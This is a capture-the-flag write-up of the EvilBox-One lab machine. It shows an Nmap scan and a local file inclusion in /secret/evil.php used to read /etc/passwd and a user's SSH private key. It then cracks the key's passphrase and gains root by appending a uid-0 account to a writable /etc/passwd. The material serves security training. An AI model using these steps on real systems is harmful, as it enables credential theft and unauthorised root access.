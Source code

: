 # PG Play - EvilBox-One

#### Ip: 192.168.171.212
#### Name: EvilBox-One
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ sudo nmap -p-  --min-rate 10000 192.168.171.212 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 14:25 CDT
Nmap scan report for 192.168.171.212
Host is up (0.081s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.12 seconds
```

Heading to the site on port 80 we find a deafault Apache landing page:

![site.png](../assets/evilbox-one_assets/site.png)

Manually trying for a robots.txt page we find:

![hello.png](../assets/evilbox-one_assets/hello.png)

Fuzzing for directories we find a `/secret/evil.php`

![ferox.png](../assets/evilbox-one_assets/ferox.png)

But navigating to the page, its just a blank page. 

Trying a few different directory traversals and continually getting blank pages rather than 404/ Not Found errors made me wonder if the page was vulnerarble.

We can automate fuzzing for the vulnerabilty with ffuf:

nice, ffuf found something for us.

![ffuf.png](../assets/evilbox-one_assets/ffuf.png)

We can navigate to http://192.168.171.212/secret/evil.php?command=/etc/passwd and confirm the vulnerability

![etc.png](../assets/evilbox-one_assets/etc.png)

Note: I always prefer to view LFIs in the page source because the formatting is usually cleaner and more readable.

### Exploitation

Its great we found this vulnerability, but in and of itself its not too useful to us yet.

Looking through the `/etc/passwd` file we see there is a user named mowree:

```
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

Because we now that SSH is also open on the target, lets see if we can access their SSH key:

Nice that worked!

![id.png](../assets/evilbox-one_assets/id.png)

Chnging the mode and trying to use the key we see it is passphrase protected.

```text
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ ssh -i id_rsa  mowree@192.168.171.212               
The authenticity of host '192.168.171.212 (192.168.171.212)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.212' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```

No worries, lets try to crack the passphrase using ssh2john:

![john.png](../assets/evilbox-one_assets/john.png)

Cool, now that we have the passphrase we can SSH in and grab the local.txt flag:

![user_flag.png](../assets/evilbox-one_assets/user_flag.png)

### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:

![transfer.png](../assets/evilbox-one_assets/transfer.png)

Nice, LinPEAS finds that the `/etc/passwd` file is writable.

![write.png](../assets/evilbox-one_assets/write.png)

This should be a quick path to root:

```text
mowree@EvilBoxOne:/tmp$ openssl passwd fake
nypzT0GRtIljA
mowree@EvilBoxOne:/tmp$ echo "root2:nypzT0GRtIljA:0:0:root:/root:/bin/bash" >> /etc/passwd
mowree@EvilBoxOne:/tmp$ su root2
Contraseña: 
root@EvilBoxOne:/tmp# whoami
root
```
Nice, that worked. We can now grab the proof.txt flag:

![root_flag.png](../assets/evilbox-one_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------



